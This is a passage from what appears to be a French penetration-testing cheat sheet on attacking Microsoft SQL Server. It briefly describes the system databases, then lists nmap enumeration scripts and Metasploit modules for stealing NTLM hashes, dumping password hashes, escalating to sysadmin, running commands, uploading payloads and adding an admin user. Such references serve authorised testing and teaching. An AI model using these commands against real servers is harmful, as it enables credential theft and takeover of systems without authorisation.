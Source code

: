 * **Base de données master** : Enregistre toutes les informations de niveau système pour une instance de SQL Server.
* **Base de données msdb** : Est utilisée par SQL Server Agent pour planifier des alertes et des tâches.
* **Base de données model** : Est utilisée comme modèle pour toutes les bases de données créées sur l'instance de SQL Server. Les modifications apportées à la base de données modèle, telles que la taille de la base de données, la collation, le modèle de récupération et d'autres options de base de données, sont appliquées à toutes les bases de données créées ultérieurement.
* **Base de données Resource** : Est une base de données en lecture seule qui contient des objets système inclus avec SQL Server. Les objets système sont physiquement stockés dans la base de données Resource, mais ils apparaissent logiquement dans le schéma sys de chaque base de données.
* **Base de données tempdb** : Est un espace de travail pour stocker des objets temporaires ou des ensembles de résultats intermédiaires.

## Énumération

### Énumération automatique

Si vous ne connaissez rien sur le service :
```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
msf> use auxiliary/scanner/mssql/mssql_ping
```
{% hint style="info" %}
Si vous **n'avez pas** **d'identifiants**, vous pouvez essayer de les deviner. Vous pouvez utiliser nmap ou metasploit. Faites attention, vous pouvez **bloquer des comptes** si vous échouez à vous connecter plusieurs fois en utilisant un nom d'utilisateur existant.
{% endhint %}

#### Metasploit (nécessite des identifiants)
```bash
#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used

#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder

#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump

#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf

#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin

#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload

#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass
```